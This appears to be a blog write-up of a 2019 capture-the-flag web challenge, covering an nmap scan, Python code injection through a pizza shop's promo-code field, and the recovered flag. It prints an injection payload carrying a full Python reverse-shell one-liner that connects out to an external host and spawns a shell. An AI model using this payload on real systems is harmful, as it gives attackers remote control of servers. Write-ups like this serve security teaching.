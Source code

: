 ```yaml
---
title: Deloitte CTF Quals 2019: g0dmode's Pizza Shop
slug: deloitte-godmod-pizza
date: 06/11/2019 03
---
```


*g0dmode's Pizza Shop* 🍕 was a task labelled web and worth 300 points. It is
a standard Python command injection. I felt like it was worth way too much
points for the difficulty.

![Task Description](/assets/pizza-god/intro.png)

As always, quick nmap scan:

```
$ nmap 3.9.188.161
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 15:57 GMT
Nmap scan report for ec2-3-9-188-161.eu-west-2.compute.amazonaws.com (3.9.188.161)
  Host is up (0.0037s latency).
  Not shown: 990 closed ports
  PORT     STATE    SERVICE
  22/tcp   open     ssh
  25/tcp   filtered smtp
  53/tcp   filtered domain
  80/tcp   open     http
  135/tcp  filtered msrpc
  139/tcp  filtered netbios-ssn
  445/tcp  filtered microsoft-ds
  2000/tcp open     cisco-sccp
  5060/tcp open     sip
  8008/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

We have a web application on port 80:

![Web Application](/assets/pizza-god/web_app.png)

The challenge description makes it clear that we have to inject some command
into the promo code field of the order page. We can totally ignore the
account mechanism.

![Order Page](/assets/pizza-god/order.png)

Let's try with a very simple payload: a single quote `'`. We get back an error:

![Order Page](/assets/pizza-god/crash.png)

The error looks like a Python quote parsing issue. My guess is that the backend
looks something like:

```
promo_code = ord('<USER_INPUT>')
```

If my guess is correct, the payload `') #` should produce no error, as we just
complete the function call and transform the end of the line into a comment
like so:

```python
promo_code = ord('') #')
```

My guess turned to be correct. So I decided to inject some reverse shell
payload. A friend told me to take a look at
[this website](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Let's tweak their Python payload a little bit:

```python
'); import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("geographer.fr",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]); #
```

We get a root shell immediately:

![Root shell](/assets/pizza-god/root.png)

Final flag: `dctf{python_code_injection_via_unsafe_exec_call_oops1e}`.
